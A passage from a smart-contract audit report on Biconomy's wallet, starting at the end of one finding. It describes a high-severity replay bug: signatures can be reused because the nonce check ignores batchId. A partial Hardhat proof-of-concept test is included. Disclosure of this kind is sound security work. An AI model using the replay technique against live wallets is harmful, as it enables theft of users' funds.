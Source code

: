 `tokenGasPriceFactor` should be included in the encoded transaction data and thus verified by the user’s signature.

**[livingrockrises (Biconomy) confirmed](https://github.com/code-423n4/2023-01-biconomy-findings/issues/123#issuecomment-1403248885)**

* * *

[](#h-07-replay-attack-eip712-signed-transaction)[\[H-07\] Replay attack (EIP712 signed transaction)](https://github.com/code-423n4/2023-01-biconomy-findings/issues/36)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by [Tointer](https://github.com/code-423n4/2023-01-biconomy-findings/issues/36), also found by [V\_B](https://github.com/code-423n4/2023-01-biconomy-findings/issues/485), [Tricko](https://github.com/code-423n4/2023-01-biconomy-findings/issues/424), [Haipls](https://github.com/code-423n4/2023-01-biconomy-findings/issues/371), [Koolex](https://github.com/code-423n4/2023-01-biconomy-findings/issues/316), [peakbolt](https://github.com/code-423n4/2023-01-biconomy-findings/issues/305), [0xdeadbeef0x](https://github.com/code-423n4/2023-01-biconomy-findings/issues/235), [PwnedNoMore](https://github.com/code-423n4/2023-01-biconomy-findings/issues/210), [romand](https://github.com/code-423n4/2023-01-biconomy-findings/issues/166), [ro](https://github.com/code-423n4/2023-01-biconomy-findings/issues/61), [csanuragjain](https://github.com/code-423n4/2023-01-biconomy-findings/issues/48), [HE1M](https://github.com/code-423n4/2023-01-biconomy-findings/issues/43), [taek](https://github.com/code-423n4/2023-01-biconomy-findings/issues/38), and [orion](https://github.com/code-423n4/2023-01-biconomy-findings/issues/6)_

[contracts/smart-contract-wallet/SmartAccount.sol#L212](https://github.com/code-423n4/2023-01-biconomy/blob/53c8c3823175aeb26dee5529eeefa81240a406ba/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L212)  

Signed transaction can be replayed. First user transaction can always be replayed any amount of times. With non-first transactions attack surface is reduced but never disappears.

### [](#why-it-is-possible)Why it is possible

Contract checks `nonces[batchId]` but not `batchId` itself, so we could reuse other batches nounces. If before transaction we have `n` batches with the same nonce as transaction batch, then transaction can be replayed `n` times. Since there are 2^256 `batchId`s with nonce = 0, first transaction in any batch can be replayed as much times as attacker needs.

### [](#proof-of-concept-5)Proof of Concept

Insert this test in `testGroup1.ts` right after `Should set the correct states on proxy` test:

    it("replay EIP712 sign transaction", async function () {
      await token
      .connect(accounts[0])
      .transfer(userSCW.address, ethers.utils.parseEther("100"));
    
    const safeTx: SafeTransaction = buildSafeTransaction({
      to: token.address,
      data: encodeTransfer(charlie, ethers.utils.parseEther("10").toString()),
      nonce: await userSCW.getNonce(0),
    });
    
    const chainId = await userSCW.getChainId();
    const { signer, data } = await safeSignTypedData(
      accounts[0],
      userSCW,
      safeTx,
      chainId
    );
    